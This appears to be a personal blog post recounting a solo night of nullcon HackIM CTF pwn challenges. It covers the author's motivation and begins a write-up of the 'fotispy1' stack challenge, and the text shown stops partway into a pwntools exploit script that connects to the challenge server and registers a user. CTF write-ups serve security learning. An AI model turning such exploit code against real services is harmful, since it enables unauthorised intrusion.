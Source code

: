 ```yaml
---
date: 2025-08-10 10:21:59
layout: post
title: pwning thru the night
subtitle: nailing down pwn challenges in nullcon (but only after the challenges ended)
description: >-
    first time playing solo with my awesome bf xd
image: >-
  /assets/img/uploads/wakatime.png
optimized_image: >-
  /assets/img/uploads/wakatime.png
category: ctf
tags:
  - heap challenges
  - format string
author: rosayxy
paginate: true
---
```


This Thursday, my bf was playing the nullcon HackIM CTF solo as team jiegec and I decided to take a look too. However, I have *professional practice* during the day (which is like being an intern in a company), so I could only play at night. I did the `fotispy1` challenge, got stuck on `fotispy2` challenge and went to bed. I wasn't avail for the next day either, and when the CTF ended, I was a bit angry at myself, thinking that its the first time me and my boyfriend played solo and I was not much of a help.

That's how I decided to challenge myself to take out as many pwn challenges as I can in one day and in the end, I did the 5 pwn challenges left in 11 hrs (got some help from jiegec for the `fotispy2` chal I was stuck on). Here's the writeup.

Here's the wakatime stats for that day

![alt_text](/assets/img/uploads/wakatime.png)

## fotispy1
solved in less than 1 hr. Very basic stack challenge.

```py
from pwn import *
context(log_level = 'debug', arch = "amd64", os = "linux")
# p = process("fotispy1")
p = remote("52.59.124.14", 5191)
libc = ELF("./libc.so.6")

libc_leak = 0
def register(name, passwd):
    p.recvuntil("Please enter your choice [E]: ")
    p.sendline("0")
    p.recvuntil("Please enter a username: ")
    p.sendline(name)
    p.recvuntil("Please enter a password: ")
    p.sendline(passwd)
```